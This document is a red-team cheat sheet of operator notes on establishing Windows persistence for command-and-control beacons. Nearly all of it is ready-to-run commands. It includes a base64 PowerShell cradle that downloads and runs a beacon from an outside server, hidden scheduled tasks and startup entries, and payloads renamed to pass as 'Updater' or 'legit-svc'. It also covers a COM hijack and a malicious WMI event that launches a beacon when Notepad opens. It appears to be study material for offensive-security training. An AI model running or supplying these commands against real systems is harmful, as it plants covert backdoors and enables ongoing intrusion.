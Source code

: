 # Host Persistence Notes

## Task Scheduler

Creating a scheduled task that will execute a PowerShell payload once every hour

1. Create an IEX cradle that's base64 encoded, /a is our hosted beacon
   ```
   Windows:
   $str = 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
   Linux:
   set str 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   echo -en $str | iconv -t UTF-16LE | base64 -w 0
   ```
2. Execute it on the beacon for persistence
   ```
   execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -n "Updater" -m add -o hourly
   ```
    -t is the desired persistence technique.
    -c is the command to execute.
    -a are any arguments for that command.
    -n is the name of the task.
    -m is to add the task (you can also remove, check and list).
    -o is the task frequency.

## StartUp Folder

Things that start automatically when a user first logs in
```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -f "UserEnvSetup" -m add
```
-f is the filename to save as

## Registry Autorun

AutoRun values in HKCU and HKLM allow applications to start on boot. 

steps in beacon
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
-k is the registry key to modify.
-v is the name of the registry key to create.

## Hunting for COM Hijacks

Easier to hunt for hijacks on our own machine first. Launch procmon64.exe from [sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

We want to filter for
1. RegOpenKey operations
2. where the Result is NAME NOT FOUND
3. and Path ends with InprocServer32

Be important to find a CLSID that isn't loaded often
Example CLSID that we found: HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32

Checking that it exists in HKLM but not in HKCU
```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```
Now create a registry entry that points HKCU to a Beacon DLL
```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
Can find hijackable COM in Task Scheduler with this powershell script
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Review this list for possible exploitation parts by rechecking the HKCU and HKLM like above, and how often they are ran, lik at every user login or something of that nature

# Elevated Host persistence

## Windows Services

Create a new service as an elevated system, this will only run when the system is rebooted
```
cd C:\Windows
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe legit-svc.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```

## WMI Event Subscriptions

Can abuse one of these in WMI
-EventConsumer
-EventFilter
-FilterToConsumerBinding

Can use [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) to abuse these
```
cd C:\Windows
upload C:\Payloads\dns_x64.exe
powershell-import C:\Tools\PowerLurk.ps1
powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```

When notepad is opened the DNS beacon will connect
